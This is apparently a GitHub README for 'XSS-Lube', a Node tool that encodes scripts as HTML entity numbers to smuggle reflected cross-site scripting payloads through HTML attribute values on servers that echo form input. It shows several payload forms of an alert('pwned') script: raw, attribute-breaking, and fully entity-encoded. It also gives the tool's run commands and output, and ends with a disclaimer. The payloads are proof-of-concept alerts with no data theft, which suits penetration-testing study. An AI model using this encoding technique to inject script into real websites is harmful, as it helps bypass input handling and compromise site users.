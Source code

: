 # XSS-Lube

A tool to assist penetrating pages with XSS code that needs to find its way into HTML attributes.

At times it can be quite challenging to inject XSS code when the code's contents will be interpreted as HTML. This is particularly true in server-side reflected XSS that involves exploitation of an HTML attribute which can require some fairly tedious string manipulation since, when you're exploiting an HTML element and manipulating an attribute you'll not want certain reserved characters to be interpreted as HTML characters. 

## Conditions of Success
To date, this has been tested against PHP servers where form data is reflected on POST. Additional uses are yet to be tested.

### Example Problem
This code will break due to the combination of use of several reserved characters and some code being interpreted as a string literal. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value="<script>alert("pwned");</script>" />
    <input type="submit" value="Submit">
</form>
```
The below will work to a limited degree, but only if you're directly manipulating the page. Otherwise, the injected script will not be received as input to the server and reflected back. This is becuase `...value=""/>` will be rendered literally before the script is reached and you'll only post an empty string to the server. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=""/><script>alert("pwned");</script>"/>
    <input type="submit" value="Submit">
</form>
```
What we need is to send a string literal to the server that when reflected will be a complete set of generated code characters. One can manually fiddle with these inputs by mapping out characters to their HTML Number Entities. For example: 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=&#34;&#47;&#62;&#13;&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#60;&#13;/>
    <input type="submit" value="Submit">
</form>
```
This should work, and when reflected and re-rendered these HTML Entity Numbers will be translated into HTMl characters. 

But that's quite tedious, especially for longer programs. Ideally, you'll get your reflected XSS exploit working with minimal struggle in the domain of string manipulation so you can save your time working out other technical problems.

## XSS-Lube to the Rescue
This tool will take a cleverly crafted text document and convert it's contents into [HTML Entity](https://developer.mozilla.org/en-US/docs/Glossary/Entity) Numbers, thereby circumventing some cases in which otherwise valid exploits are hampered by how a character is handled by the server on HTML renderer.

**Dependencies**: NodeJS - consider installing the [Node Version Manager (NVM)](https://github.com/nvm-sh/nvm) to resolve this dependency.

## Example Usage

Example (test.html):

```html
<script>
  alert("pwned!");
</script>
```

Run the following code:
```sh
npm run start test.html
```
Or, with Yarn:
```sh
yarn start test.html
```

And then observe the output:

```text
ub3rl33t@kali:~$ yarn start test.html

===============================================================
██╗  ██╗███████╗███████╗      ██╗     ██╗   ██╗██████╗ ███████╗
╚██╗██╔╝██╔════╝██╔════╝      ██║     ██║   ██║██╔══██╗██╔════╝
 ╚███╔╝ ███████╗███████╗█████╗██║     ██║   ██║██████╔╝█████╗
 ██╔██╗ ╚════██║╚════██║╚════╝██║     ██║   ██║██╔══██╗██╔══╝
██╔╝ ██╗███████║███████║      ███████╗╚██████╔╝██████╔╝███████╗
╚═╝  ╚═╝╚══════╝╚══════╝      ╚══════╝ ╚═════╝ ╚═════╝ ╚══════╝
===============================================================
TEST.HTML - Text to HTML Entity Number for XSS:
---------------------------(start)-----------------------------
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;
---------------------------(end)-----------------------------
```

The string of HTML Entity Numbers can be used in place of cumbersome characters in your exploit.

## Caution
As always, there is a lot of nuance in exploiting vulnerable web applications. And you have to gain and understanding of the environment. This tool will not work well in all cases. And, encoded text put into an input field will behave differently than text embedded into a page, etc. So, please temper your expectations. ^_^

## Obligatory Warning
Hacking is illegal, this tool is not intended for illegal activity and the author cannot be held responsible for such use. Please use responsibly either in your own home lab or for legitimate work where you've required established satisfactory legal, business, and moral grounds to perform any penetration testing. 
